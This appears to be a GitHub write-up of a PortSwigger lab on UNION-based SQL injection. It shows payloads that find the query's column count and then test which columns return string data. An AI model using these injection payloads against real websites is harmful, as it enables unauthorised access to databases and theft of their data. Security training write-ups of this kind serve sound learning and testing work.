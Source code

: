 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5086ef31-864a-4e3f-a5b1-8f27bf57b35c)

## Solution :

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```
Added "UNION NULL" to the request to determine the number of columns used in the query.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL,NULL--
```
This did not throws an internal server error. It means that there are 3 columns that is being retreived in the query.

We need to use the UNION SELECT payload  using 3 NULL values. Try thetring value *JK9WNI* in one NULL value to see if it returns that string. If it does , then it means the column contains string data else it is not sting data.

**JK9WNI in 1st NULL -**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'JK9WNI',NULL,NULL --
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2b13d9b4-7e05-4e44-ad65-1f556f4bf6fb)

**JK9WNI in 2st NULL -**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'JK9WNI',NULL --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4d5b00b3-7095-497b-afd2-c88bfd379752)



